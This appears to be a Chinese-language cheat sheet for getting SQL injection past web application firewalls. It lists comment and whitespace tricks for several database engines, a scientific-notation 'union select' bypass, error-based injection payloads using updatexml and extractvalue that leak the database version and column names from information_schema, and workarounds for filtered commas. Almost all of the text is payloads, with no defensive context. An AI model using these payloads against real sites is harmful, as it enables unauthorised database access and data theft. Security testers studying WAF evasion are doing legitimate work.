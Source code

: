 ### 过waf
> https://blog.csdn.net/wjy397/article/details/53263281

1. 确定waf类型，狗、盾、神、锁、宝、卫士
2. 使用注释符号或者特殊符号或者多个特殊符号重复
```
# 
--
-- - //5.6.12特性，需要加空格
--+
//
/**/ //c风格注释
/**//**/  //多个注释
/*letmetest*/
;


# 科学记数法
id=0e1union select



# 空白字符
SQLite3 0A 0D 0C 09 20 
MySQL5 09 0A 0B 0C 0D A0 20 
PosgresSQL 0A 0D 0C 09 20 
Oracle 11g 00 0A 0D 0C 09 20 
MSSQL 01,02,03,04,05,06,07,08,09,0A,0B,0C,0D,0E,0F,10,11,12,13,14,15,16,17,18,19,1A,1B,1C,1D,1E,1F,20


```
3. 使用sql内置函数或者关键字
> 报错注入 https://blog.csdn.net/like98k/article/details/79646512
```
# 常用
extractvalue
updatexml 报错注入
UPDATEXML (XML_document, XPath_string, new_value); 
or updatexml(1, concat(0x7e, (version()), 0x7e), 0);
> select * from  users where id = 1 and updatexml(1, concat(0x7e, (version()), 0x7e), 0);
> version() database() (SELECT concat(column_name) FROM information_schema.columns WHERE table_name='users' limit 0,1

floor()
ceil()
Mid(version(),1,1)
Substr(version(),1,1)
Substring(version(),1,1)
concat(version(),'|',user());
concat_ws('|',1,2,3)
Char(49)
Hex('a')
Unhex(61)
过滤了逗号
(1)limit处的逗号：
limit 1 offset 0
(2)字符串截取处的逗号
mid处的逗号：
mid(version() from 1 for 1)
```
